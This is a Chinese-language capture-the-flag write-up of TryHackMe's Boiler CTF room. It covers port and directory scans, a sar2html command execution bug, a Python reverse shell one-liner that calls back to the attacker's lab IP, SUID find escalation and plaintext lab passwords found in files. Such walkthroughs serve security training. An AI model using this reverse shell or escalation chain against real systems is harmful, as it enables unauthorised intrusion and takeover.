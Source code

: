```yaml
---
sidebar_position: 85
tags: [Easy, Linux, 命令注入, SUID]
title: "Boiler CTF"
description: "Boiler CTF"
sidebar_label: "Boiler CTF"
slug: /tryhackme/85
---
```

# Boiler CTF
## 端口扫描
```bash
root@ip-10-10-168-22:~/boilerctf2# nmap -sTCV -p 21,80,10000,55007 --min-rate 1000 10.10.243.135

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-11 10:43 BST
Nmap scan report for ip-10-10-243-135.eu-west-1.compute.internal (10.10.243.135)
Host is up (0.00014s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.168.22
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp    open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
10000/tcp open  http    MiniServ 1.930 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
55007/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:ab:e1:39:2d:95:eb:13:55:16:d6:ce:8d:f9:11:e5 (RSA)
|   256 ae:de:f2:bb:b7:8a:00:70:20:74:56:76:25:c0:df:38 (ECDSA)
|_  256 25:25:83:f2:a7:75:8a:a0:46:b2:12:70:04:68:5c:cb (EdDSA)
MAC Address: 02:D6:EF:FF:CB:5D (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.22 seconds
```
## 21 - FTP
这里存在一个匿名共享, 登陆后发现其中有一个 `.info.txt` 但是没有什么用

## 80
```bash
root@ip-10-10-168-22:~/boilerctf2# gobuster dir -u http://10.10.243.135/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.243.135/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,html,php
[+] Timeout:        10s
===============================================================
2023/09/11 10:45:53 Starting gobuster
===============================================================
/index.html (Status: 200)
/manual (Status: 301)
/robots.txt (Status: 200)
/joomla (Status: 301)
```

- `/manual` : apache 的页面
- `/joomla` : 一个 CMS 估计就是这里了

访问 joomla  页面, 进行了目录扫描, 这个扫描出来的结果比较多就进行了简化

```bash
root@ip-10-10-168-22:~/boilerctf2# gobuster dir -u http://10.10.243.135/joomla/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.243.135/joomla/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2023/09/11 10:59:03 Starting gobuster
===============================================================
/images (Status: 301)
...
/tests (Status: 301)
....
/_files (Status: 301)
```

- /tests : 这里列出了网站的目录

这里基本就断了, 因为其中最主要的一个目录 _test 是不在字典中的, 当我们访问 `http://10.10.255.110/joomla/_test/` 显示是一个 sar2html 经过谷歌发现一个命令执行漏洞 [Sar2HTML 3.2.1 - Remote Command Execution](https://www.exploit-db.com/exploits/47204)

![](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/sudo.gif)

## 后渗透
### www-data
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.168.22",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![20240703210155](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703210155.png)

### www-data —> root
![20240703210207](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703210207.png)

枚举 SUID 发现一个 [find#suid](https://gtfobins.github.io/gtfobins/find/#suid)

![20240703210229](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703210229.png)

## 扩展
### www-data —> basterd

在我们的网站目录中可以找到一个 log.txt 在其中可以发现一个密码

![20240703210247](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703210247.png)

### basterd —> stoner

在用户 basyerd 中可以发现一个 `backup.sh` 文件, 其中存在 stoner 用户的密码

```bash
basterd@Vulnerable:~$ ls
backup.sh

basterd@Vulnerable:~$ cat backup.sh 
.....
USER=stoner
#superduperp@$$no1knows
```
![20240703210309](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703210309.png)

虽然由 SUDO特权但是这个二进制程序并不存在, 所以还是会回到 SUID 